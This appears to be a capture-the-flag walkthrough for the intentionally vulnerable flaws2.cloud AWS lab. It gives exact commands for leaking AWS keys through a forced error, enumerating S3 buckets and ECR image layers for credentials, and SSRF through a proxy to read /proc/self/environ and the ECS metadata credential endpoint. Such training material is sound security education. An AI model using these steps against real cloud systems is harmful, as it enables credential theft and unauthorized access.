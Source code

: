 <h2>All 3 challenges for this lab can be found at http://flaws2.cloud/ </h2>

<h3>Level 1 Target: http://level1.flaws2.cloud</h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/a39cf547-d5f9-43ae-8101-e4cf632d9398)

Step 1: Often developers will dump environmental variables when error conditions occur in order to help them debug problems.  To test if this occurs here we will capture the ‘Submit’ request in burp suite and change it to a non-number value (since the website only allows numbers to be submitted).  This will cause an error that leaks aws credentials:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/2db0f698-f866-40f7-bdda-7c565ead2244)

Step 2: Configure a new aws profile with these credentials: aws configure –profile flawscloud
When prompted, enter the access key and secret access key.  

Step 3: Open the profile we just configured for flawscloud (this can be found in ~/.aws/credentials) and add the aws_session_token.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c558ab12-9e40-41b0-8fd8-7c3eb9626874)

Step 4: Now that we have credentials for an aws account, let’s check what this level1.flaws2.cloud  is: nslookup level1.flaws2.cloud <br>
This returns 52.217.139.141

Step 5: Run the command: nslookup 52.217.139.141 <br>
This returns s3-website-us-east-1.amazonaws.com  

Step 6: Now that we know this is a s3 bucket, let’s try to list the s3 bucket: aws --profile flawscloud s3 ls s3://level1.flaws2.cloud  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1c463ab7-c7c9-4704-bad6-7d11db1756b7)

This returns a list of the s3 bucket. 

Step 7: Copy the secret to our pc: aws --profile flawscloud s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html . <br>
Open the secret to solve level1.  

---
<h3>Level 2 Target http://container.target.flaws2.cloud </h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/19d9da2e-a4d0-40de-a4f8-6ff08f60d1f8)

Step 1: Visiting the target shows we need credentials to login:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c0363893-ba65-478f-b322-56d656f43f28)

Step 2: aws --profile flawscloud ecr list-images --repository-name level2

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/4b414d3f-272c-45c6-9efb-3d18eb8fa01d)

Step 3: aws --profile flawscloud sts get-caller-identity

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/af2a981b-db78-4d9c-8d4d-d4f1b84574b6)

Step 4: aws --profile flawscloud ecr list-images --repository-name level2 --registry-id 653711331788

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/650fb84b-33de-4a74-8ddf-b01ba48376db)

Step 5: Step: aws --profile flawscloud ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest |jq '.images[].imageManifest | fromjson'

This has a bunch of different digests.  One of the digests in the output is shown in the below screenshot:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/ee2708d5-fa0d-4b79-b95c-926b96517e72)

Step 6: Check each one of the digests with this command: aws --profile flawscloud ecr get-download-url-for-layer --repository-name level2 --registry-id 653711331788 --layer-digest "sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621”

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/98559782-b928-430a-968e-f8fa0098d7f6)

Step 7: Visiting the long url shown downloads a file.  Searching through the file we find credentials. 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/5e01336c-e8dc-4f59-9341-704d7cfb2e0f)

Step 8: Use those credentials to login to http://container.target.flaws2.cloud which completes level 2.  
---
<h3>Level 3 Target: </h3>
![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1d1bf7f8-33d8-4170-a2ef-7ada181f2eef)

Step 1: Seems like the container webserver directs the site to whatever is given after /proxy/.  Based on this, try to access local files: http://container.target.flaws2.cloud/proxy/file:///proc/self/environ 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/79c271c0-4c62-4be8-85ac-f0195618df5e)

Step 2: Visit the path’s found on /proc/self/environ: http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/cd0f067f-f28a-4f8a-ba76-0e697ec1d289

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/04f04468-2815-4f67-9073-4a6a46775bbc)

This path reveals aws credentials.

Step 3: Configure a new profile user with the found aws credentials: aws configure --profile flawscloud2 <br>
Add the credentials when prompted.

Step 4: Add the aws session token manually into this user profile (found in ~/.aws/credentials): 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/e685934c-c56c-4345-a50b-43fbf3ecf2a4)

Step 5: Check if we can find any s3 buckets for this user: aws --profile flawscloud2 s3 ls   

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/3820a3aa-4406-4a9b-9d9b-dee55aa1d478)

Navigate to the endpoint found on the s3 bucket to complete level 3: http://the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud/ 
